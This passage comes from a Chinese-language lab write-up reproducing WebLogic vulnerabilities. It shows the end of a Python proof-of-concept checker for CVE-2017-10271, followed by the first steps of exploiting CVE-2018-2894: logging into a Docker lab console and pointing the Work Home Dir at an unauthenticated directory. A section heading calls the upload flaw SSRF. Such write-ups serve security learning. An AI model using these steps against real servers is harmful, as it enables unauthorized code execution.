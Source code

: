 ```python
    '''
     
    print url
    try:
        r=requests.post(posturl,data=data,headers=headers,timeout=5)
        geturl=url+"/wls-wsat/test.txt"
        #print geturl
        check_result = requests.get(geturl,headers=headers,timeout=5)
        if 'xmldecoder_vul_test' in check_result.text:
            print u"存在WebLogic WLS远程执行漏洞(CVE-2017-10271)"
    except:
        pass
 
if __name__ == '__main__':
    if len(argv) == 1:
        print "Please input python Webogic_XMLDecoder_poc.py http://xxxx:7001"
        exit(0)
    else:
        url = argv[1]
    Webogic_XMLDecoder_poc(url)
```



##  **Weblogic-SSRF漏洞复现**

- **编号：CVE-2018-2894**
- **影响版本：weblogic 10.3.6.0、weblogic 12.1.3.0、weblogic 12.2.1.2、weblogic 12.2.1.3**
- **本质为任意文件上传漏洞**

**漏洞原因:**

#### **漏洞复现**

**1、访问http://192.168.58.128:7001/console/login/LoginForm.jsp可以看见后台登录界面**

-  **执行docker-compose logs | grep password可查看管理员密码，管理员用户名为weblogic，密码为 fF0soTHJ**

**2、 登录后台页面，点击`base_domain`的配置，在 ‘高级’ 中勾选 ‘启用 Web 服务测试页’ 选项，然后保存配置。**

**![image-20210404014821939](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404014821939.png)**

**3、访问http://192.168.58.128:7001/ws_utc/config.do，设置Work Home Dir为**

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css
```

**访问这个目录是无需权限的，这一点很重要。**

**![image-20210404014939259](https://yglf.oss-cn-hangzhou.aliyuncs.com/img/image-20210404014939259.png)**

**点击提交**
